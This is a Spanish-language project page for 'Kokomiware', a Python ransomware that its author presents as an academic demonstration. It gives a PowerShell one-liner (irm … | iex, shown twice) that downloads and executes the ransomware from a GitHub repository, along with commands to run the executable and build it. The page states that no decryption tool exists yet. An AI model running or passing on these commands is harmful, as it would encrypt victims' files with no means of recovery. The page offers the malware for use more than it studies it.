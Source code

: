 ```yaml
---
title: KOKOMIWARE.
description: Pequeño ejemplo de la implementación de un ransomware en Python.
author: Quantum 
date: 2023-07-11
categories: [Proyectos]
tags: [ransomware,python,ciberseguridad]
image:
  path: /assets/img/projects/kokomiware/header.webp
  alt: Sangonomiya Kokomi.
---
```


### ¿Qué es Kokomiware?
Kokomiware es un ransomware escrito en el lenguaje de programación python, se hace uso de la librería `cryptography` y librerías nativas de python como lo son `OS` Y `Glob`. Kokomiware tiene como fin demostrar lo fácil que es implementar un malware de este tipo. Además de que su propósito es puramente académico y para estudio de desarrollo de malware, bajo ningún concepto debe de ser utilizado con fines maliciosos y debera ser ejecutado unicamente en maquinas virtuales en entornos controlados. Por ultimo como aclaración no soy un experto en python por lo que pueden surgir bugs. 

**Repositorio de Github:** [Kokomiware](https://github.com/quantumwavves/Kokomi-Russian-Roulette)

### Uso

#### En una sola línea 

Este procedimiento llama a un script en escrito en powershell por medio del `Invoke-RestMethod` a un recurso en línea y utiliza, `Invoke-Expression` para realizar su ejecución, todo a través de un pipe `|`

```console
irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/kokomiware-oneline.ps1 | iex
```

#### Modo ruleta rusa

```console
irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/kokomiware-oneline.ps1 | iex
```

#### Uso normal 


```console
.\kokomiware.exe
```
#### Desarrollo 

`(Yo recomiendo usar un entorno virtual de python)`{:.info}
```console
$ .\env\Scripts\activate
$ pip install -r requirements.txt
$ python kokomiware-fernet.py
# Versión alternativa con pyAes, mas lenta, pero con un cifrado mas seguro
$ python kokomiware-aes.py
```
### Descifrar archivos (clave)
Kokomiware genera una clave única y aleatoria para cada ejecución de la función kokomi(). Se almacena en un archivo .png en la siguiente ruta `$env:temp` o también conocido como `%temp%` con el nombre `sngmy.png`{:.warning}, El programa de descifrado aun no esta creado.

### Lista de pendientes

- [ ] Reescribir el código en otro lenguaje como `C++` o `C` con el fin de aumentar la velocidad de encriptación.
- [ ] Crear un readme con instrucciones para desencriptar.
- [ ] Crear una función de desencriptación
- [ ] Optimizar los tiempos de ejecución

### Demo

Este es un video de demostración:

<p style="text-align: center">
<video width="600" height="400" controls>
  <source src="/assets/img/projects/kokomiware/demo.webm" type="video/mp4">
</video>
</p>

### Inspiración
- [Sangonomiya Kokomi](https://genshin-impact.fandom.com/wiki/Sangonomiya_Kokomi)
